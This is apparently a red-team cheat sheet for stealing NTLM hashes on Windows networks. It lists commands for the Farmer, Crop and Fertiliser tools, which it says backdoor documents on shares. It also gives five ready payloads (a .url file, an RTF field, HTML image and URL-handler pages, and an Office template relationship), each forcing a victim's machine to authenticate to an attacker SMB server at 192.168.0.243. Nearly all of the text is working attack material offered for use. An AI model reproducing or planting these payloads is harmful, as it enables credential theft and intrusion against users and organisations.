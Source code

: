 ```bash
```


#### Windows - Start Farmer to collect hashes, Crop to generate new lnks and fertilizer to backdoor exisitng documents on shares
```powershell
Farmer.exe 7443
Crop.exe 
Fertiliser.exe 
```

#### Coerce 1 - Url File for Shares Pointing back to our SMB Server
```powershell
[InternetShortcut]
URL=jdate.com
WorkingDirectory=wdir
IconFile=\\192.168.0.243\%USERNAME%.icon
IconIndex=1
```
##### Make sure 'view file extenxions' is on, create a new text file on share, paste that in, rename the file to .url extension

#### Coerce 2 - RTF that tries to load image
```powershell
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://192.168.0.243/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```

#### Coerce 3 - HTML
```html
<!DOCTYPE html>
<html>
	<img src="file://192.168.0.243/share/leak.png"/>
</html>
```

#### Coerce 4 - Office XML, Add to Word document( wont work with protectedView )
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
	<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file://192.168.0.243/share/Template.dotx" TargetMode="External"/>
</Relationships>
```

#### Coerce 5 - Url Handler
```html
<!DOCTYPE html>
<html>
	<script>
		location.href = 'ms-word:ofe|u|\\192.168.0.243/share/leak.docx';
	</script>
</html>
```
